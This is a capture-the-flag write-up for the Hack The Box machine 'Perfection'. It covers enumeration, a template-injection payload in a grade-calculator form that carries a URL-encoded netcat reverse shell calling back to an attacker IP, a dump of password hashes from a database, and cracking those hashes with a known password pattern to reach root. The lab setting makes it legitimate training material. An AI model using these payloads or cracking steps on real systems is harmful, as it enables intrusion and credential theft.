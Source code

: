 ```yaml
---
description: https://app.hackthebox.com/machines/590
---
```


# Perfection

#### Service Enumeration

```bash
nmap 10.10.11.253 -T5 -A -p- -sV -sC

PORT   STATE SERVICE VERSION                                                                            
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)                       
| ssh-hostkey:                                                                                          
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)                                         
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)                                       
80/tcp open  http    nginx                                                                              
|_http-title: Weighted Grade Calculator                                                                 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Directory Enumeration

```bash
dirsearch -u http://10.10.11.253

[21:17:12] 200 -    4KB - /about 
```



Upon browsing to the HTTP service hosted on the machine, I am able to see there are more directories than first discovered by our initial dirsearch.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p><a href="http://10.10.11.253/weighted-grade">http://10.10.11.253/weighted-grade</a></p></figcaption></figure>

Filled the form and sent the intercept to repeater.

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p><a href="http://10.10.11.253/weighted-grade">http://10.10.11.253/weighted-grade</a></p></figcaption></figure>

```
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.253/weighted-grade
Content-Type: application/x-www-form-urlencoded
Content-Length: 174
Origin: http://10.10.11.253
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

category1=Math&grade1=1&weight1=20&category2=Math&grade2=1&weight2=20&category3=Math&grade3=1&weight3=20&category4=Math&grade4=1&weight4=20&category5=Math&grade5=1&weight5=20
```



Encoded a netcat reverse shell payload via URL in Burp Suite's Decoder.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.9 4444 >/tmp/f
```

Encoded in URL

```
%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%34%2e%39%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66
```



Modified Repeater POST request

```
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.253/weighted-grade
Content-Type: application/x-www-form-urlencoded
Content-Length: 412
Origin: http://10.10.11.253
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

category1=a%0A<%25%3dsystem("%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%34%2e%39%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66");%25>&grade1=1&weight1=20&category2=Math&grade2=1&weight2=20&category3=Math&grade3=1&weight3=20&category4=Math&grade4=1&weight4=20&category5=Math&grade5=1&weight5=20
```



Started netcat and sent the payload which returned a shell.

```bash
nc -nvlp 4444
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>NetCat Listener</p></figcaption></figure>

```bash
ls -las
```

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

```bash
cat user.txt
```

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

The database file in \~/Migrations contains hashes for users which can be ran against Rockyou.txt via hashcat.

```bash
susan@perfection:~/Migration$ strings pupilpath_credentials.db

SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
Stephen Locke154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f

```

The password schema for users can be found in /var/mail

```bash
susan@perfection:/var/mail$ cat susan

Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

Now knowing the password schema, and possessing a hash, lets attempt to crack it.&#x20;

```bash
hashcat -m 1400 susan_hash.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d --show
```

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Switching to root using sudo su and entering the cracked password we have been granted access to login as root.

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>
